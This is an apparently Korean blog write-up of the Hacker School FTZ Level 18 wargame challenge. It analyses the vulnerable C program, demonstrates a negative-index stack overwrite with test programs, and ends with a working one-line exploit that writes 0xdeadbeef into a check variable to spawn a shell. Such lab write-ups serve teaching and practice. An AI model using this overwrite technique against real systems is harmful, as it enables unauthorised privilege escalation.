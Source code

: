```yaml
---
layout: post
title: "Hacker School FTZ - Level 18"
description: "Do you know the ?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level18/1.jpg" | relative_url }}' alt='relative'>  

## 1) level18/why did you do it 입력해 로그인  
 
``` c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/2.png" | relative_url }}' alt='relative'>  

코드를 살펴보면,  
1. count 변수는 string 배열의 인덱스 번호를 저장  
2. 변수가 스택에 쌓이는 순서는  

<img data-action="zoom" src='{{ "assets/ftz/level18/3.png" | relative_url }}' alt='relative'>  

3. check 변수에 0xdeadbeef 값을 넣어줘야 함  
4. 입력 방법으로는 string 배열에 표준입력으로 문자 한 개씩 입력 받음  

코드 내용을 분석한 결과 string 배열을 넘어서서 check 변수에 값을 대입해야 하는 걸로 보입니다.  
string\[count\] = x 코드는 string\[count\] 값이 가리키는 주소에 x 값을 입력하라는 의미입니다.  

그러면 string 배열의 BOF를 일으켜 x에는 0xdeadbeef 값을 넣어주고 string\[count\]는 check를 가리키도록 해야 합니다.  

## 2) string\[count\]가 check를 가리키는 방법  

<img data-action="zoom" src='{{ "assets/ftz/level18/4.png" | relative_url }}' alt='relative'>  

``` c
// test.c
#include <stdio.h>
int main() {
        int i;
        char var1 = 'b';
        char var[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        char var2 = 'a';
        char var3 = 'c';

        printf("*var = %c\n", *var);

        for (i=0; i<10; i++)
                printf("*var+%d = %c\n", i, *var+i);

        printf("var[-1] = %c\n", var[-1]);
        printf("var[10] = %c\n", var[10]);
        printf("var[-2] = %c\n", var[-2]);

        return 0;
}
```

위의 소스코드를 실행하면 어떤 값을 출력할까요?  

<img data-action="zoom" src='{{ "assets/ftz/level18/5.png" | relative_url }}' alt='relative'>  

var\[-1\]이 가리키는 주소에 들어있는 값을 출력하니 'a'가 출력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/6.png" | relative_url }}' alt='relative'>  

gdb로 test 실행파일을 살펴보니 아래 그림처럼 변수가 스택에 저장되어 있습니다.  

배열의 값이 스택에 쌓이는 순서는 스택의 낮은 주소부터 높은 주소로 순서대로 쌓이며,  
변수가 스택에 쌓이는 순서는 마지막에 선언된 변수부터 처음 선언된 변수 순서대로 쌓이는 것을 확인할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/7.png" | relative_url }}' alt='relative'>  

그래서 var\[-1\]은 \*var-1을 의미하여 var2 변수에 들어있는 값이 출력된 것 입니다.  

<hr>

앞서 살펴본 내용을 고려하면 string\[count\]가 check를 가리키기 위해선 count가 -1 값을 가지고 있으면 됩니다.  

count는 초기값이 0이므로 0x08을 입력하면 -1이 될 것입니다.  

## 3) 0x08 입력하여 0xdeadbeef 값 입력하기  

char 배열은 문자 하나를 읽기 위해 1 byte씩 주소를 이동합니다. (만약 int 배열이었으면 이와 같은 이유로 정수 하나를 읽기 위해 4 byte씩 주소를 이동합니다.)  
따라서 char 배열의 인덱스가 int 변수 하나에 값을 넣기 위해서는 4번의 주소 이동이 있어야 합니다.  

또한, 리틀 엔디안 형식으로 값을 넣어줘야 하기 때문에 0xdeadbeef를 한 바이트씩 잘라 '\xef', '\xbe', '\xad', '\xde' 순으로 넣어줘야 합니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/8.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
int main() {
        char tmp[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        int atme;
        int count = -1;

        tmp[count-3] = 0xef;
        tmp[count-2] = 0xbe;
        tmp[count-1] = 0xad;
        tmp[count-0] = 0xde;

        if (atme == 0xdeadbeef)
                printf("good");

        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/9.png" | relative_url }}' alt='relative'>  

tmp 문자열 배열보다 atme 정수형 변수가 스택에 먼저 쌓여 스택에서 더 낮은 주소에 위치하고 있습니다.  
따라서 tmp 문자열 배열의 인덱스가 스택의 더 낮은 주소를 가리키면 atme 변수를 가리킬 수 있습니다.  

또한, atme 정수형 변수는 4 byte이므로 문자열 배열인 tmp는 4 byte 뒤로 이동하여 1 byte씩 원하는 값을 입력해야 하고,  
리틀 엔디안 형식으로 값을 입력해야 하므로 입력하고자 하는 값을 한 바이트씩 잘라 뒤에서부터 입력해줍니다.  

그러면 위와 같이 atme 변수에 0xdeadbeef 값이 들어가 good 문자열을 출력하는 걸 볼 수 있습니다.  

## 4) attackme에 적용하기  

3번의 내용을 바로 attackme에 적용하면,  

``` bash
(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level18/10.png" | relative_url }}' alt='relative'>  

level19의 비밀번호를 획득할 수 있습니다.  